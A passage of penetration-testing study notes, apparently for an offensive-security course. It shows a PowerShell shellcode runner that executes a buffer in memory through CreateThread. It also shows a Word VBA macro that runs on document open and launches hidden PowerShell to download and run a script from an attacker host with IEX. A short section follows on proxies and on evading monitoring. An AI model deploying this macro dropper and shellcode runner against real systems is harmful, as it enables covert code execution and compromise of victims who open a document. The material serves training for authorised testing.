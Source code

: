 ```powershell
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

# Execute shellcode
$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread),
  (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr],[UInt32], [IntPtr])([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)
  
# wait for it to exit
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject),
  (getDelegateType @([IntPtr], [Int32])([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

VBA

```vb
Sub MyMacro()
	Dim str As String
	str = "powershell -ExecutionPolicy Bypass -WindowStyle Hidden -NoProfile (New-Object System.Net.WebClient).DownloadString('http://10.0.0.123/Simple_Shellcode_Runner_Powershell_v2.ps1')|IEX"
	Shell str, vbHide
End Sub

Sub Document_Open()
 MyMacro 
End Sub

Sub AutoOpen()
 MyMacro
End Sub
```

![[Pasted image 20240531210243.png]]

# 3.7 Talking To The Proxy

Proxies play a crucial role in penetration testing, particularly in environments where organizations route network communications through proxy servers. This setup allows security analysts to scrutinize traffic, presenting unique challenges and opportunities for penetration testers.

To effectively navigate these scenarios, testers must either adapt their techniques to function seamlessly through proxies or strategically bypass these proxies to evade monitoring when necessary. For instance, while Meterpreter's HTTP and HTTPS payloads are designed to be [proxy-aware](https://www.rapid7.com/blog/post/2011/06/29/meterpreter-httphttps-communication/), PowerShell download cradles might not automatically respect proxy settings. Therefore, it's critical for penetration testers to verify their tools' compatibility with target environments' proxy configurations.

As security landscapes evolve, continuously assessing and updating penetration testing strategies to align with modern proxy usage and detection capabilities is essential. This ensures that testing approaches remain robust, discreet, and aligned with best practices
## 3.7.1 PowerShell Proxy-Aware communication
